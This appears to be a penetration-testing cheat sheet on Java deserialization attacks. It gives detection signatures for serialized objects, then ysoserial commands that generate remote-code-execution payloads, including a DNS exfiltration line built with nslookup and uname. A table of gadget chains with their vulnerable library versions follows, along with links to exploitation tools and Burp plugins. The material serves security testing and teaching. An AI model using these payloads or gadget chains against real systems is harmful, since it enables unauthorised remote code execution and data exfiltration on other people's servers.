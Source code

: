 # Java Deserialization

## Detection

- "AC ED 00 05" in Hex
- "rO0" in Base64
- Content-type = "application/x-java-serialized-object"
- "H4sIAAAAAAAAAJ" in gzip(base64)

## Exploit

[ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial-master-v0.0.4-g35bce8f-67.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

payload | author | dependencies | impact (if not RCE)
------|--------|------ |------
BeanShell1          |@pwntester, @cschneider4711 |bsh:2.0b5
C3P0                |@mbechler                   |c3p0:0.9.5.2, mchange-commons-java:0.2.11
Clojure             |@JackOfMostTrades           |clojure:1.8.0
CommonsBeanutils1   |@frohoff                    |commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
CommonsCollections1 |@frohoff                    |commons-collections:3.1
CommonsCollections2 |@frohoff                    |commons-collections4:4.0
CommonsCollections3 |@frohoff                    |commons-collections:3.1
CommonsCollections4 |@frohoff                    |commons-collections4:4.0
CommonsCollections5 |@matthias_kaiser, @jasinner |commons-collections:3.1
CommonsCollections6 |@matthias_kaiser            |commons-collections:3.1
FileUpload1         |@mbechler                   |commons-fileupload:1.3.1, commons-io:2.4 | file uploading
Groovy1             |@frohoff                    |groovy:2.3.9
Hibernate1          |@mbechler|
Hibernate2          |@mbechler|
JBossInterceptors1  |@matthias_kaiser            |javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
JRMPClient          |@mbechler|
JRMPListener        |@mbechler|
JSON1               |@mbechler                   |json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
JavassistWeld1      |@matthias_kaiser            |javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
Jdk7u21             |@frohoff|
Jython1             |@pwntester, @cschneider4711 |jython-standalone:2.5.2
MozillaRhino1       |@matthias_kaiser            |js:1.7R2
Myfaces1            |@mbechler|
Myfaces2            |@mbechler|
ROME                |@mbechler                   |rome:1.0
Spring1             |@frohoff                    |spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
Spring2             |@mbechler                   |spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
URLDNS              |@gebl| | jre only vuln detect
Wicket1             |@jacob-baines               |wicket-util:6.23.0, slf4j-api:1.6.4

Additional tools (integration ysoserial with Burp Suite):

- [JavaSerialKiller](https://github.com/NetSPI/JavaSerialKiller)
- [Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)
- [Burp-ysoserial](https://github.com/summitt/burp-ysoserial)
- [SuperSerial](https://github.com/DirectDefense/SuperSerial)
- [SuperSerial-Active](https://github.com/DirectDefense/SuperSerial-Active)

JRE8u20_RCE_Gadget
[https://github.com/pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget)

JexBoss - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool, [https://github.com/joaomatosf/jexboss](https://github.com/joaomatosf/jexboss)

## Thanks to

- [Github - ysoserial](https://github.com/frohoff/ysoserial)
- [Java-Deserialization-Cheat-Sheet - GrrrDog](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
- [Understanding & practicing java deserialization exploits](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)
- [How i found a 1500$ worth Deserialization vulnerability - @D0rkerDevil](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities - 14 Aug 2017, Peter Stöckli](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)